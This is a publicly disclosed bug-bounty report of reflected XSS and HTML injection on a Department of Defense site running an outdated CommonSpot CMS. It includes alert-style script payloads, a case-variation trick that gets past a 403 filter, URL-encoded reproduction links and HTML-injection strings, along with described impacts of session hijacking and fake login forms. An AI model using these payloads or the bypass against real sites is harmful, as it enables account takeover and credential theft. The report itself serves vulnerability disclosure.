 # Reflected XSS and HTML Injectionon a DoD website

## Report Details
- **Report ID**: 859342
- **URL**: https://hackerone.com/reports/859342
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-25T19:03:17.826Z
- **Disclosed**: 2020-06-11T18:15:53.031Z

## Reporter
- **Username**: natanalves01001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Summary: I found Xss and Html injection vulnerabilities on one of the DoD websites

Description: When doing the Xss tests I used this payload: <script> alert ("XSS") </script> and when running I noticed that the server returned a 403 Forbidden error, but it was easy to do a bypass I just modified the javascript tags it was like this: <ScRipT x> alert ('XSS') </ ScRipT X> then the server returned code 404 to me, thus executing successfully without any restrictions.

## Impact: 
This vulnerability allows the attacker to send a link with the malicious code to the Administrator of that system and by clicking on the link, the session would be hijacked, thus making it possible to have administrative access in the Web application. In the Html Injection, it could be used to "spoof contents "an injection of html could be made that would pretend to be a login form of the application, and the user would try to authenticate himself and thus manage to steal his credentials. Among other examples ...


##Steps To Reproduce: 
Cross Site Scripting:
1.██████commonspot/dashboard/index.html#url=a;%3CScRipT%20X%3Ealert(%22XSS%20REFLECTED%22)%3C/ScRipT%20X%3E
2.██████████commonspot/dashboard/index.html#mode=%3CScRipT%20x%3Ealert(%22XSS%22)%3C/ScRipT%20x%3E;&url=a

Html Injection:
1.██████████commonspot/dashboard/index.html#url=a;%3Ccenter%3E%3Cimg%20src=%22███%22/%3E%3C/center%3E%3Ccenter%3E%3Ccenter%3E%3Cbr%3E%3Cfont%20color=%22red%22%20size=%2210%22%3EHTML%20INJECTION!%3C/font%3E%3C/center%3E

2.██████████commonspot/dashboard/index.html#url=a;%3Ccenter%3E%3Cimg%20src=%22███████%22/%3E%3C/center%3E%3Ccenter%3E%3Ccenter%3E%3Cbr%3E%3Cfont%20color=%22red%22%20size=%2210%22%3EHTML%20INJECTION!%3C/font%3E%3C/center%3E

## Product, Version, and Configuration 

CommonSpot 9.0 SP4 (Build 9.0.4.207) and Build: 2016-08-05 20:03:02

## Suggested Mitigation/Remediation Actions:
This system uses Commonspot (CMS) is completely out of date, I recommend installing the most updated version or installing the various security paths, here is the Commonspot (CMS) developer website: https://www.paperthin.com/

## Impact

1) It would allow an attacker to send a link with malicious code, which allows the theft of cookies, sessions, tokens, etc. If one of these administrative sessions is captured, it could allow the attacker to access the web application improperly, for example by having access to administrative page of the application.
2) Another impact would be counterfeiting of content, using HTML INJECTION.

## Attachments
No attachments
